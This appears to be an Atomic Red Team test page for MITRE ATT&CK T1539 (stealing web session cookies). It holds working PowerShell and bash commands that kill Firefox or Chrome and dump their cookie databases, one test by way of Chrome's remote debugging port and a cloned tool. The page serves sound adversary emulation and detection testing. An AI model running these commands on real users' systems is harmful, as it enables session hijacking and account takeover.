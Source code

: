 # T1539 - Steal Web Session Cookie

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1539)

<blockquote>An adversary may steal web application or service session cookies and use them to gain access to web applications or Internet services as an authenticated user without needing credentials. Web applications and services often use session cookies as an authentication token after a user has authenticated to a website.

Cookies are often valid for an extended period of time, even if the web application is not actively used. Cookies can be found on disk, in the process memory of the browser, and in network traffic to remote systems. Additionally, other applications on the targets machine might store sensitive authentication cookies in memory (e.g. apps which authenticate to cloud services). Session cookies can be used to bypasses some multi-factor authentication protocols.(Citation: Pass The Cookie)

There are several examples of malware targeting cookies from web browsers on the local system.(Citation: Kaspersky TajMahal April 2019)(Citation: Unit 42 Mac Crypto Cookies January 2019) There are also open source frameworks such as `Evilginx2` and `Muraena` that can gather session cookies through a malicious proxy (ex: [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557)) that can be set up by an adversary and used in phishing campaigns.(Citation: Github evilginx2)(Citation: GitHub Mauraena)

After an adversary acquires a valid cookie, they can then perform a [Web Session Cookie](https://attack.mitre.org/techniques/T1550/004) technique to login to the corresponding web application.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Steal Firefox Cookies (Windows)](#atomic-test-1---steal-firefox-cookies-windows)

- [Atomic Test #2 - Steal Chrome Cookies (Windows)](#atomic-test-2---steal-chrome-cookies-windows)

- [Atomic Test #3 - Steal Chrome Cookies via Remote Debugging (Mac)](#atomic-test-3---steal-chrome-cookies-via-remote-debugging-mac)

<br/>

## Atomic Test #1 - Steal Firefox Cookies (Windows)

This test queries Firefox's cookies.sqlite database to steal the cookie data contained within it, similar to Zloader/Zbot's cookie theft function.
Note: If Firefox is running, the process will be killed to ensure that the DB file isn't locked.
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows

**auto_generated_guid:** 4b437357-f4e9-4c84-9fa6-9bcee6f826aa

#### Inputs:

| Name         | Description                | Type | Default Value                                                                                      |
| ------------ | -------------------------- | ---- | -------------------------------------------------------------------------------------------------- |
| sqlite3_path | Path to sqlite3            | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe |
| output_file  | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539FirefoxCookies.txt                        |

#### Attack Commands: Run with `powershell`!

```powershell
stop-process -name "firefox" -force -erroraction silentlycontinue
$CookieDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*\cookies.sqlite"
"select host, name, value, path, expiry, isSecure, isHttpOnly, sameSite from [moz_cookies];" | cmd /c #{sqlite3_path} "$CookieDBLocation" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:

```powershell
remove-item #{output_file} -erroraction silentlycontinue
```

#### Dependencies: Run with `powershell`!

##### Description: Sqlite3 must exist at (#{sqlite3_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```

<br/>
<br/>

## Atomic Test #2 - Steal Chrome Cookies (Windows)

This test queries Chrome's SQLite database to steal the encrypted cookie data, designed to function similarly to Zloader/Zbot's cookie theft function.
Once an adversary obtains the encrypted cookie info, they could go on to decrypt the encrypted value, potentially allowing for session theft.
Note: If Chrome is running, the process will be killed to ensure that the DB file isn't locked.
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows

**auto_generated_guid:** 26a6b840-4943-4965-8df5-ef1f9a282440

#### Inputs:

| Name         | Description                          | Type   | Default Value                                                                                      |
| ------------ | ------------------------------------ | ------ | -------------------------------------------------------------------------------------------------- |
| cookie_db    | Filepath for Chrome cookies database | string | $env:localappdata&#92;Google&#92;Chrome&#92;User Data&#92;Default&#92;Network&#92;Cookies          |
| sqlite3_path | Path to sqlite3                      | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe |
| output_file  | Filepath to output cookies           | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539ChromeCookies.txt                         |

#### Attack Commands: Run with `powershell`!

```powershell
stop-process -name "chrome" -force -erroraction silentlycontinue
"select host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly from [Cookies];" | cmd /c #{sqlite3_path} "#{cookie_db}" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:

```powershell
remove-item #{output_file}
```

#### Dependencies: Run with `powershell`!

##### Description: Sqlite3 must exist at (#{sqlite3_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```

<br/>
<br/>

## Atomic Test #3 - Steal Chrome Cookies via Remote Debugging (Mac)

The remote debugging functionality in Chrome can be used by malware for post-exploitation activities to obtain cookies without requiring keychain access. By initiating Chrome with a remote debug port, an attacker can sidestep encryption and employ Chrome's own mechanisms to access cookies.

If successful, this test will output a list of cookies.

Note: Chrome processes will be killed during this test.

See https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

**Supported Platforms:** macOS

**auto_generated_guid:** e43cfdaf-3fb8-4a45-8de0-7eee8741d072

#### Attack Commands: Run with `bash`!

```bash
killall 'Google Chrome'
sleep 1
open -a "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --args --remote-debugging-port=1337 --remote-allow-origins=http://localhost/
sleep 1
/tmp/WhiteChocolateMacademiaNut/chocolate -d cookies -p 1337
```

#### Cleanup Commands:

```bash
rm -rf /tmp/WhiteChocolateMacademiaNut
```

#### Dependencies: Run with `bash`!

##### Description: Install Go

##### Check Prereq Commands:

```bash
go version
```

##### Get Prereq Commands:

```bash
brew install go
```

##### Description: Download and compile WhiteChocolateMacademiaNut

##### Check Prereq Commands:

```bash
/tmp/WhiteChocolateMacademiaNut/chocolate -h
```

##### Get Prereq Commands:

```bash
git clone https://github.com/slyd0g/WhiteChocolateMacademiaNut.git /tmp/WhiteChocolateMacademiaNut
cd /tmp/WhiteChocolateMacademiaNut
go mod init chocolate
go mod tidy
go build
```

<br/>
